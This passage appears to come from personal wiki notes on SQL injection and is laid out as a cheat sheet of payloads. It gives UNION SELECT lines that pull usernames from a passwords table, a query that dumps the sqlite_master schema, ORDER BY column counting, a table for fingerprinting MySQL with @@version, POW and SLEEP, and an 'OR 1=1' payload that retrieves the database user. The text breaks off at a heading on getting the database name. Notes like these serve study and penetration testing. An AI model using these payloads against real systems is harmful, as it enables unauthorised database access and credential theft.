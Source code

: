 or, 


```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

## Database Specific Injections

### [[db/sqlite\|sqlite]]


<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



```sql
123' UNION SELECT name, sql, null from sqlite_master;--
```



</div></div>


### [[db/relational databases/MySQL/MySQL\|MySQL]]


<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">




## Getting number of columns

```sql
1' ORDER BY 5 #
```

```
SELECT @@version
```

| Payload            | When to Use                      | Expected Output                                     | Wrong Output                                              |
| ------------------ | -------------------------------- | --------------------------------------------------- | --------------------------------------------------------- |
| `SELECT @@version` | When we have full query output   | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)`  | When we only have numeric output | `1`                                                 | Error with other DBMS                                     |
| `SELECT SLEEP(5)`  | Blind/No Output                  | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS                   |

## Getting user information

```sql
'OR 1=1 UNION SELECT 1, user(), 3, 4;-- 
```
## Getting current database name
